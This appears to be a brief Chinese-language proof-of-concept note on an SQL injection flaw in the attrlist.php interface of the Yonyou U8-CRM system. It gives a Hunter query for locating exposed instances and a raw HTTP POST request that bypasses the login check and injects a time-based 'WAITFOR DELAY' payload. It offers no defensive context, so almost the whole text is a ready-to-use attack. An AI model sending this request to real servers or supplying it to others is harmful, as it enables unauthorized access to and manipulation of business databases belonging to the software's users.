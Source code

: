 # 用友U8-CRM系统接口attrlist存在SQL注入漏洞



## hunter

```yaml
app.name="用友 CRM"
```

## poc

```java
POST /devtools/tools/attrlist.php?DontCheckLogin=1&isquery=1 HTTP/1.1
Host: 
Connection: close
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded; 

obj_type=1';WAITFOR DELAY '0:0:5'--
```

